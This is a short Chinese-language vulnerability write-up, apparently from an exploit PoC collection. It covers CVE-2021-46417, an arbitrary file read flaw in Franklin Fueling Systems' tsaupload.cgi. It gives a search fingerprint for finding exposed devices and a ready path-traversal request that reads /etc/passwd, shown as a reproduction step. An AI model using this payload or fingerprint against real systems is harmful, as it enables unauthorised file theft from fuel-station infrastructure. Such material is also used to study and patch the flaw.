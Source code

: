 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

# Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Electric Franklin Fueling Systems是美国Franklin Electric公司的一个加油系统。

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件。

## 漏洞影响

```
Franklin Fueling Systems
```

## 网络测绘

```
"Franklin Fueling Systems"
```

## 漏洞复现

主页面

![image-20220715105504364](/images/202207151055481.png)

验证POC

```
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![image-20220715105538276](/images/202207151055335.png)



